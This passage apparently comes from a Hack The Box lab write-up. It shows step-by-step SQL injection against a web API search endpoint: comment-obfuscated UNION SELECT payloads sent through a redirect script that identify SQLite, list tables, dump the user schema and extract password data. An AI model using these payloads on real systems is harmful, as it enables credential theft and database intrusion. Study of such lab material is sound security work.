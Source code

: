 ```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/version()),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```
We get an error back saying the site is not up.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/sqlite_version()),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```
Success we see that the sqlite version is 3.8.5

![](sqlite-version.png)


Now that we know what database it is, we can get the tables that are available.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(SELECT/**/tbl_name/**/FROM/**/sqlite_master),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```
![](table.png)

Get the columns of the table

```shell
"http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(SELECT/**/sql/**/FROM/**/sqlite_master/**/WHERE/**/type!='meta'/**/AND/**/sql/**/NOT/**/NULL/**/AND/**/name/**/='user'),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```


![](_posts/assets/img/health-htb/health-db-columns.png)
*Looks like I did not mark all of the colums but I got the two that we need most. Can you find the ones I missed?*

Let's get the password:

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/passwd/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--" 
```

